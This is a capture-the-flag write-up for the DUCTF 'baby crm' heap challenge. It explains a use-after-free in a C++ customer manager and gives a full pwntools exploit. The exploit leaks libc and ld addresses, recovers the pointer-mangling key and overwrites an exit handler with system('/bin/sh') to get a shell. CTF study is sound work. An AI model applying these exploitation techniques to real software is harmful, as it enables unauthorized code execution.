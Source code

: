 # baby crm

## Challenge

A C++ application which lets us add and manage customers and orders.

## Solution

The help messages will free an uninitialized pointer from the stack.
We can use this to free a customer.

If we then create an order for a different customer, the order description with overlap with the freed customer.

If we again free the same customer and create a new one, it will overlap with the freed customer and the order.

Using the order, we can read and write data in the customer struct.

We can achieve an arbitrary read/write by creating a fake vector or orders, allowing us to manipulate the address of a fake order description.

We can leak the libc address by creating a large string that gets freed into a fastbin, then reading the pointer.

Unfortunately, malloc and free hooks are removed in this version.

Leaking a stack pointer through the libc environ is an option
We could use this to write a ropchain on the stack.
Unfortunately, I could not get this to work on the remote.

Instead, I leaked the ld-linux address from a pointer in libc.
This allowed me to find the address of `_dl_fini`, which could be used to determine the xor key used in the libc `__exit_funcs`.
From there, I overwrite one of the exit handlers with `system("/bin/sh")` to spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 2023.ductf.dev --port 30014 baby-crm
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'baby-crm')
libc = ELF('libc.so.6')
ld = ELF('ld-linux-x86-64.so.2')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '2023.ductf.dev'
port = int(args.PORT or 30014)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, env={'LD_PRELOAD': libc.path}, *a, **kw)
    else:
        return process([exe.path] + argv, env={'LD_PRELOAD': libc.path}, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

def new_customer(name):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b': ', name)

def add_order(c_idx, value):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b': ', c_idx)
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b': ', value)

def edit_customer_name(c_idx, name):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b': ', c_idx)
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b': ', name)

def edit_order(c_idx, o_idx, description):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b': ', c_idx)
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b': ', o_idx)
    io.sendafter(b': ', description)
    if len(description) < 0x50:
        io.send(b'\n')

def leak_desc(c_idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b': ', c_idx)
    io.recvuntil(b'Value: ')
    io.recvuntil(b'Description: \n')
    return io.recv(0x50)

def leak_name(c_idx, n):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b': ', c_idx)
    io.recvuntil(b'Name: ')
    return io.recv(n)

def order_help():
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'> ', b'1')

new_customer(b'0')
new_customer(b'1')

# overlap order
add_order(b'0', b'0')
order_help()
add_order(b'1', b'0')

# overlap customer
add_order(b'0', b'0')
order_help()
new_customer(b'2')

leak = leak_desc(b'1')
leak_arr = [unpack(leak[i:i+8]) for i in range(0, len(leak), 8)]
print([hex(i) for i in leak_arr])

def arb_read(addr, n):
    if addr & 1 == 1:
        raise Exception("arb_read addr & 1 cannot be set")
    if b'\n' in pack(addr):
        raise Exception("arb_read addr cannot contain newlines")
    edit_order(b'1', b'0', pack(addr) + pack(n) + leak[0x10:])
    return leak_name(b'0', n)

def arb_write(addr, content):
    edit_order(b'1', b'0', flat(
        [
            leak_arr[:6],
            0,
            leak_arr[5]+8,
            addr,
            leak_arr[5]-0x10,
        ],
    ))
    edit_order(b'2', b'0', content)

new_customer(b'3')
edit_customer_name(b'3', b'a'*0x500)
edit_customer_name(b'3', b'a')

libc.address = unpack(arb_read(leak_arr[5] + 0xb08, 8)) - 0x219ce0
print("libc: " + hex(libc.address))
print(arb_read(libc.address, 8))

x = arb_read(libc.address + 0x219000, 800)
x = [hex(unpack(x[i:i+8])) for i in range(0, len(x), 8)]

ld.address = unpack(arb_read(libc.address + 0x219010, 8)) - 0x15c60
print("ld: " + hex(ld.address))
print(arb_read(ld.address, 8))

exit_funcs = libc.address + 0x21af00
dl_fini = ld.address + 0x6040

rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

def encrypt(v, key):
    return rol(v ^ key, 0x11, 64)

encrypted_dl_fini = unpack(arb_read(exit_funcs + 0x138, 8))
key = ror(encrypted_dl_fini, 0x11, 64) ^ dl_fini

arb_write(exit_funcs + 0x138, flat([encrypt(libc.sym['system'], key), next(libc.search(b'/bin/sh'))]))

io.sendlineafter(b'> ', b'5')

io.interactive()
```

## Flag

```
DUCTF{0u7_0f_5c0p3_0u7_0f_m1nd}
```
